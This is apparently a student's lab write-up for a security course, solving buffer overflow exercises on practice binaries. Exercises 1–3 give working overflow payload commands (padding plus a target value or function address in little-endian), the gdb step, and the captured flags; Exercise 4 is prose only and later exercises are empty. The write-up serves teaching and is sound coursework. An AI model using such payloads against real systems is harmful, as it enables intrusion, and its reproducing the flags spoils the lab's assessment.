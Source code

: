 ```html
<div style="page-break-after: always;"></div>
```

###### Exercise 1

> [!exercise]+ Exercise 1
> Go to /home/q1/. Exploit the program to get the secret.
> 
> **Answer:**
To exploit the program and obtain the secret, we target the buffer overflow vulnerability caused by `strcpy`. The `buffer` array has 1024 bytes, and `changeme` is immediately after it in memory. To overwrite `changeme`, our input needs to exceed the `buffer` size and alter `changeme`'s value from 0.
> 
> By supplying an input of 1028 characters, we overflow `buffer` and change at least one byte of `changeme`, triggering the conditional to reveal the secret.
>```
>student@hacklabvm:/home/q1$ ./run_me $(python -c 'print("A"*1025)')
 >_________________________________________
>/ csf2024s1_{flockwise-overdiversificatio \
>\ n-muriciform}                           /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

<div style="page-break-after: always;"></div>

###### Exercise 2

> [!exercise]+ Exercise 2
> Go to/ home/q2/. Exploit the program to get the secret.
> 
> **Answer:**
> This follows the same logic as exercise 1, but instead of overwriting `changeme` with anything, we need to change it to `0xabcdabcd`. Similar to before, we fill `buffer` with 1024 bytes of garbage, and now we must append `0xabcdabcd` in little endian format, i.e. `\xcd\xab\xcd\xab`.
> 
> Since we are limited to `python3`, the command is also a bit different due to the way strings are encoded.
>```
>student@hacklabvm:/home/q2$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xcd\xab\xcd\xab")')
> _________________________________________
>/ csf2024s1_{salvifics-cohesionless-nondi \
>\ lation}                                 /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```
<div style="page-break-after: always;"></div>

###### Exercise 3

> [!exercise] Exercise 3
> Go to /home/q3/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is very similar to question 2. All we need to do is overwrite the unsigned int with the address of the `secret` function. We attain this by opening the binary inside `gdp` and printing the address.
> 
> ```
> (gdb) print secret
> $1 = {void ()} 0x565561ed \<secret>
> ```
> Now that we have the address, we convert it to little endian format and place it inside our payload (using the same method as question 2)
> 
> ```
> student@hacklabvm:/home/q3$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xed\x61\x55\x56")')
> Jumping to function at 0x565561ed!!
>  _________________________________________
> / csf2024s1_{hiddenly-avitaminoses-diasta \
> \ lsis}                                   /
>  -----------------------------------------
>   \
>    \
>        __     
>       UooU\.'@@@@@@`.
>       \__/(@@@@@@@@@@)
>            (@@@@@@@@)
>            `YY~~~~YY'
>             ||    ||
> ```

<div style="page-break-after: always;"></div>

###### Exercise 4

> [!exercise]+ Exercise 4
> Go to /home/q4/. Exploit the program to get the secret.
> 
> **Answer:**
> Quite similar to the last question, except our input can only be less than 100 characters. Because `sprintf` is used instead of `strcpy`, we can get around this limitation by padding the input inside this function, rather than through python.



<div style="page-break-after: always;"></div>


###### Exercise 5

<div style="page-break-after: always;"></div>

###### Exercise 6

<div style="page-break-after: always;"></div>

###### Exercise 7

<div style="page-break-after: always;"></div>

###### Exercise 8

<div style="page-break-after: always;"></div>

###### Exercise 9

<div style="page-break-after: always;"></div>

###### Exercise 10







